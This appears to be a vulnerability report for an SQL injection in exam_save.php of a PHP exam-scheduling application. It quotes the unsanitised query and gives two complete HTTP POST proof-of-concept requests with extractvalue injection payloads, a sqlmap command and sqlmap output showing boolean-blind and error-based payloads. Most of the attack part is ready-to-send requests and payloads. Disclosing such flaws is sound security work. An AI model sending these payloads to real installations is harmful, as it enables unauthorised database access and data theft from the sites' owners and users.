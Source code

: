 # Online Class and Exam Scheduling System has SQL injection vulnerability

# supplier  

https://code-projects.org/online-class-and-exam-scheduling-system-in-php-with-source-code/

# Vulnerability file

exam_save.php

Prerequisite: You need to log in first

# describe

in exam_save.php

~~~
		$query_member=mysqli_query($con,"select *,COUNT(*) as count from exam_sched 
		natural join member natural join time where member_id='$member' and exam_sched.time_id='$daym' and day='first' and settings_id='$sid' and term='$term'")or die(mysqli_error($con));
			$row=mysqli_fetch_array($query_member);
~~~

We can control the parameters of `member` and `first[]`, and there are no protective measures in the following SQL statements, so directly splicing SQL statements can cause SQL injection

# POC

~~~
POST /scheduling/pages/exam_save.php HTTP/1.1
Host: 192.168.11.1
Content-Length: 135
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN,zh;q=0.9
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Origin: http://192.168.11.1
Referer: http://192.168.11.1/scheduling/pages/exam.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=cb0bm45iq5eo1j1c4n6in1cg7t
Connection: keep-alive
X-Forwarded-For: 222.65.94.31

first%5B%5D=41'and/**/extractvalue(1,concat(char(126),database()))and'&member=27&subject=ALG&cys=BEED+1A&room=101&remarks=&cys1=BEED+1A
~~~

~~~
POST /scheduling/pages/exam_save.php HTTP/1.1
Host: 192.168.11.1
Content-Length: 135
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN,zh;q=0.9
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Origin: http://192.168.11.1
Referer: http://192.168.11.1/scheduling/pages/exam.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=cb0bm45iq5eo1j1c4n6in1cg7t
Connection: keep-alive
X-Forwarded-For: 222.65.94.31

first%5B%5D=41&member=27'and/**/extractvalue(1,concat(char(126),database()))and'&subject=ALG&cys=BEED+1A&room=101&remarks=&cys1=BEED+1A
~~~

# EXP

~~~
sqlmap -r sql --risk=3 
~~~

~~~
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: first[]=41&member=27' RLIKE (SELECT (CASE WHEN (4913=4913) THEN 27 ELSE 0x28 END))-- jvZu&subject=ALG&cys=BEED 1A&room=101&remarks=&cys1=BEED 1A

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: first[]=41&member=27' AND EXTRACTVALUE(5701,CONCAT(0x5c,0x7176707171,(SELECT (ELT(5701=5701,1))),0x7170626271))-- nbrO&subject=ALG&cys=BEED 1A&room=101&remarks=&cys1=BEED 1A
---
~~~

